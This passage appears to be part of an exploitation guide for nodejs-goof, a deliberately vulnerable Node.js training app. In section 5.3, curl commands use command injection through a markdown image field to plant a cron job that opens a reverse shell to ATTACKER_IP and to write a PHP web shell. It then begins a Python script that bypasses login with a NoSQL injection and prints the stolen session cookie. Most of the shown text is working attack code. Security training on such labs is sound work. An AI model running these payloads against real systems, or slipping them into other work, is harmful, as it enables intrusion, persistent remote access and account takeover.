 ```bash
```

---

### 5.3 Persistence Mechanisms

```bash
# Create cron job backdoor via command injection
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;echo "* * * * * /bin/bash -c '\''bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'\''" | crontab - "Image")'

# Create web shell
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;echo "<?php system(\$_GET[\"cmd\"]); ?>" > /var/www/html/shell.php "Image")'
```

---

## 6. Automated Exploitation

### 6.1 Custom Python Exploitation Script

```python
#!/usr/bin/env python3
"""
nodejs-goof Automated Exploitation Script
Red Hat Cybersecurity Engineering Demo
"""

import requests
import json
import sys

class NodejsGoofExploit:
    def __init__(self, target_url):
        self.target = target_url
        self.session = requests.Session()
        
    def nosql_injection(self):
        """Exploit NoSQL injection for authentication bypass"""
        print("[*] Testing NoSQL injection...")
        
        payload = {
            "username": "admin@snyk.io",
            "password": {"$gt": ""}
        }
        
        response = self.session.post(
            f"{self.target}/login",
            json=payload,
            allow_redirects=False
        )
        
        if response.status_code == 302:
            print("[+] NoSQL injection successful!")
            print(f"[+] Session cookie: {response.cookies.get('connect.sid')}")
            return True
        else:
            print("[-] NoSQL injection failed")
            return False
```